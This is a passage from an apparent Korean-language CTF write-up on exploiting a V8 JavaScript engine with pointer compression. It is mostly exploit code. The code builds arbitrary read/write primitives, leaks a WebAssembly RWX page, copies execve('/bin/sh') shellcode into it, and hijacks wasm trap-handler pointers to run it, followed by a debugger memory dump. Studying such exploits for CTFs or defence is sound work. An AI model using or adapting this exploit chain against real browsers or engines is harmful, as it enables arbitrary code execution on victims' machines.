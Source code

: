 ```jsx
    console.log("offset", offset);

    function read64(addr) {
        let r = (addr-0x8n) & 0xffffffffn;
        yee[offset] = (r << 32n | r).i2f();
        return  a[0].f2i();
    }

    function write64(addr, value) {
        let r = (addr-0x8n) & 0xffffffffn;
        yee[offset] = (r << 32n | r).i2f();
        a[0] = value.i2f();
        return true;
    }

    // leak rwx address
    let wasm_instance_addr = addrof(wasm_instance);
    console.log("wasm_instance_addr", wasm_instance_addr.toString(16));
    let rwx = read64(wasm_instance_addr+0x68n);
    console.log("rwx", rwx.toString(16));

    // write
    let arr = new ArrayBuffer(0x100);
    let arr_addr = addrof(arr);
    write64(arr_addr+0x14n, rwx);

    // alloc
    shellcode = [ 0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x1697268, 0x24348101, 0x1010101, 0x6a56f631, 0x1485e08, 0x894856e6, 0x6ad231e6, 0x50f583b];
    let z = new Uint32Array(arr);
    for (let i = 0; i < shellcode.length; i-=-1)
        z[i] = shellcode[i];

    let zz = new BigUint64Array(arr);
    for (let i = 0; i < 0x20; i-=-1)
        zz[0x80/8 + i] = rwx;

    // fail wasm exception
    f();
}

setTimeout(main, 500);
```

address compression이 적용된 v8을 익스하는건 처음이라 "이렇게 하면 된다~" 라는걸 따라해서 코드를 만들어 봤다. webassembly으로 `rwx`를 만들면 에러 핸들링 하는 함수들의 포인터가 `rwx`영역의 시작지점 부근에 쌓이길래 이거로 트리거 했다.

```bash
0x000029024a482048│+0x0048: 0x00007ffff61d4da0  →  <Builtins_ThrowWasmTrapUnreachable+0> push rbp
0x000029024a482050│+0x0050: 0x90660000000225ff
0x000029024a482058│+0x0058: 0x00007ffff61d4f00  →  <Builtins_ThrowWasmTrapMemOutOfBounds+0> push rbp
0x000029024a482060│+0x0060: 0x90660000000225ff
0x000029024a482068│+0x0068: 0x00007ffff61d5060  →  <Builtins_ThrowWasmTrapUnalignedAccess+0> push rbp
0x000029024a482070│+0x0070: 0x90660000000225ff
0x000029024a482078│+0x0078: 0x00007ffff61d51c0  →  <Builtins_ThrowWasmTrapDivByZero+0> push rbp
0x000029024a482080│+0x0080: 0x90660000000225ff
0x000029024a482088│+0x0088: 0x00007ffff61d5320  →  <Builtins_ThrowWasmTrapDivUnrepresentable+0> push rbp
0x000029024a482090│+0x0090: 0x90660000000225ff
[...]
0x000029024a482218│+0x0218: 0x00007ffff61fc340  →  <Builtins_DoubleToI+0> push rcx
0x000029024a482220│+0x0220: 0x90660000000225ff
```